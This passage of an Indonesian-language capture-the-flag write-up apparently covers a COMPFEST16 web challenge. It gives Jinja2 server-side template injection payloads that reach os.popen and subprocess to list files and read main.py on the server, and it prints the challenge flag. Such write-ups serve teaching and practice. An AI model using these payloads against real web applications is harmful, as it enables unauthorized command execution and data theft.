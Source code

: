 Ternyata command tersebut hanya mengeluarkan file OS yang digunakan website. Langsung saya mencoba memasukkan command `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R')}}` untuk melihat apa yang dapat ditampilkan

![greet3](https://github.com/user-attachments/assets/55af5de8-da59-404c-973d-2cf50244592e)

ternyata hanya mengeluarkan memory addres dari suatu file. Disini saya paham bahwa ada suatu file yang harus dibaca, namun saya harus mengakali command read nya agar dapat membaca file tersebut. Setelah saya coba cari cari cara, saya bisa menggunakan command `{{request.application.__globals__.__builtins__.__import__('subprocess').check_output('ls -R', shell=True).decode()}}` (maaf saya lupa ss lagi).

Dari command ini saya bisa melisting beberapa file dan salah satunya adalah `main.py`, seperti yang saya ketahui melalui source code bahwa flag nya bisa saya temukan dari source code yang diberikan dengan nama `main.py`

![image](https://github.com/user-attachments/assets/21c028ba-08e0-4433-a319-9a5db022a0ce)

Maka dari itu saya perlu melakukan `cat` command (kebetulan cat tidak di ban) pada file `main.py` untuk mendapatkan flag nya. Maka command nya saya ganti menjadi `{{request.application.__globals__.__builtins__.__import__('subprocess').check_output('cat main.py', shell=True).decode()}}` yang mana berhasil membawa saya pada flag dari challenge ini

![greet4](https://github.com/user-attachments/assets/dd522442-c57c-4c28-ad0b-30192ac2a724)

**FLAG:** `COMPFEST16{b3St_fw3nDS_for3v3R_dcb3980048}`
